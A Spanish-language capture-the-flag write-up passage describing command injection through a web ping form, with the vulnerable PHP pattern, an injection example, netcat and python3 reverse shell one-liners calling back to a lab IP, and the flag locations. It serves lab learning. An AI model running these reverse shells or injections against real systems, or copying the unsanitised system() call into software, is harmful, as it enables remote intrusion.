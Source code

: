*Referencia: https://www.hackingarticles.in/penetration-testing-on-memcached-server/*


#### Ejecución


Configurando la variable que concuerda con ambos servicios y añadiendo la asignada por la vpn el output de la página resulta diferente.

![exploit_3](./images/exploit_3.png)

A partir de este punto se puede observar que se habilita un formulario para realizar un ping a un host, lo que a nivel de código se puede reducir en algo como:

```php
$ip = "valor proporcionado por formulario"
system('ping ' . $ip);
```

Lo que al final se reduciría en ejecución remota de comandos, ya que en consola podemos usar "separadores" para ejecutar múltiples comandos en una misma instrucción, lo que a nivel de código se ejemplificaría en `ping 127.0.0.1; whoami`.

![exploit_4](./images/exploit_4.png)

Al ver el servicio lo ejecuta directamente `root`, al obtener una reverse shell, no se requiriría proceso de escalación de privilegios.

Al realizar la prueba para obtener una reverse shell con netcat usando `;nc -e /bin/bash 10.10.0.26 1234` no se ejecutó satisfactoriamente por lo que se optó intentar con diferentes opciones, siendo `python3` el funcional:

```bash
;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.0.26",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![exploit_5](./images/exploit_5.png)


## Ubicación de banderas


1. Llave - valor de `memcached`.
2. `/var/lib/nginx/html/network-tools.php` x 3.
3. `/`
4. Extrayendo las variables de entorno de los procesos en ejecución con `strings /proc/*/environ | grep ETSCTF`.
5. `/root`.

